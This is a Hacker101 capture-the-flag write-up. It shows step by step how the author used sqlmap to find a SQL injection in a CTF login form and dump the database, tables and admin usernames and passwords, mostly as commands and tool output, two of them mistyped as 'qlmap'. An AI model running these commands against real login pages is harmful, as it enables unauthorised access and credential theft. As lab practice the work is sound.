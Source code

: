 # Hacker101-CTF FLAG 2
We are want to try and obtain the username and password to log in, in the previous flag we noticed that we can get thought without the username but what about the password?

In this case we already know that the input fields are susceptible to SQLI so maybe we can expoit it making use of slqmap.

First of all im gonna go ahead and try to obtain the databases if there is any vulnerability.

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs`

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

Im getting this message:
`[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'`

Im gonna try and increase de level value to 2

`sqlmap -u "https://bf6d320adcbbe56841eb0d43a6a79866.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2`

Looks like im getting more juice this time!

`[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'`
`it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y`
`for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y`

Im getting this message as well, im gonna go ahead and try to vulnerate only the username field.

`[INFO] checking if the injection point on POST parameter 'username' is a false positive`
`POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N `

Finally got some results! I got all the databases, im gonna take a look into level2 database

`sqlmap -u "https://bf6d320adcbbe56841eb0d43a6a79866.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables`

Lets get into admins table and see its columns

`qlmap -u "https://bf6d320adcbbe56841eb0d43a6a79866.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns`

Now lets have a look into the usernames! Dump it!

`qlmap -u "https://bf6d320adcbbe56841eb0d43a6a79866.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump`

Now lets retrieve the pass

`sqlmap -u "https://bf6d320adcbbe56841eb0d43a6a79866.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump`

Now lets try log in. Got it! We have the last flag


